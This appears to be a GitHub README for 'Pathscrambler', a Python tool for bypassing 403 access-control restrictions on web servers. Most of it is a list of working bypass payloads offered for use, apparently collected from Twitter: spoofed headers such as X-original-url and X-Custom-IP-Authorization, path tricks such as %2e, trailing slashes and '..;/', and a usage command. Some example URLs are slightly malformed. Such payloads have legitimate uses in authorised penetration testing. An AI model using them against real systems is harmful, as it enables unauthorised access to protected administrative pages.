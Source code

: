 # Pathscrambler

Simple Tool written in python to bypass access-control restriction currenty supports :

These payloads are directly pulled from twitter. Thanks to the community :)

--------------------------------------------------
```
GET /admin HTTP/1.1
Host: example.com     =>    403 Forbidden


GET /anything HTTP/1.1
Host: example.com
X-original-url: /admin =>   200 OK

GET /anything HTTP/1.1
Host: example.com
X-Custom-IP-Authorization:127.0.0.1

------------------------------------------------


https://www.example.com/path =>  403 Forbidden

https://www.example.com/%2e/path   =>  200 OK

------------------------------------------------

https://www.example.com/admin       => 403

https://www.example.com/.           => 200

https://www.example/admin//         => 200

https://www.example/./admin/./      => 200

------------------------------------------------

https://www.example.com/admin/      => 302

https://www.example.com/admin..;/   => 200
------------------------------------------------
```


Command Example :

python3 pathscramblerpy -u "https://www.example/admin" where /admin returns 403
